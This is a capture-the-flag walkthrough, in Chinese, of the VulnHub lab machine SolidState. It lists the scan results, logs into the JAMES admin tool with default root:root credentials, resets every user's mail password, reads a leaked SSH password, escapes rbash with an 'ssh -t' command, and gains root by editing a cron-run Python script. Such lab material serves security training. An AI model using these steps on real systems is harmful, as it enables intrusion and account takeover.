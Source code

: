 # SolidState: 1

2024-8-10 https://www.vulnhub.com/entry/solidstate-1,261/

difficulty: begginer-intermediate

## IP

192.168.10.150

## Scan

Open Port -> 22,25,80,110,119,4555

```
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (192.168.10.3 [192.168.10.3]), PIPELINING, ENHANCEDSTATUSCODES
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings:
|   GenericLines:
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for
|_    Login id:
```

先看 80 web，gobuster 扫描后，没发现什么内容，是个静态的网站。

JAMES Remote Administration Tool 2.3.2 经过搜索，发现其默认的用户名和密码为 root:root, 使用 nc 进行登陆: nc 192.168.10.150 4555

listusers 发现有 5 个用户名:

```
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

猜测可能这些用户的邮箱中存在可利用的信息，但是不知道这些密码，这个工具上提供了可以重置邮箱密码的功能:

```
setpassword james test
setpassword thomas test
setpassword john test
setpassword mindy test
setpassword mailadmin test
```

telnet 到 mindy 的 110 收邮箱端口后，发现第 2 封邮件中有用户名和密码:

```
username: mindy
pass: P@55W0rd1!2@
```

ssh 进行登陆，发现了 user flag:

```
mindy@solidstate:~$ cat user.txt
914d0a4ebc1777889b5b89a23f556fd75
```

发现当前 shell 为 rbash 受到限制，重新 ssh 登陆绕过 rbash : ssh mindy@192.168.10.150 -t "bash --noprofile"

sudo suid crontab 等都无特殊的配置，经过枚举，发现 /opt/tmp.py 为一个脚本功能是清除 tmp 中的文件 `os.system('rm -r /tmp/* ')` 同时有 w 权限，此文件应该是 root 用户定时调用的特殊计划任务，上传 pspy32 等待几分钟，看看是否能找到突破口。过了 3 分钟，发现 python /opt/tmp.py 显示被调用，则可以直接修改 py 中的内容，实现反弹，获得 root 权限。

```
rootbash-4.4# cat root.txt
b4c9723a28899b1c45db281d99cc87c9
```
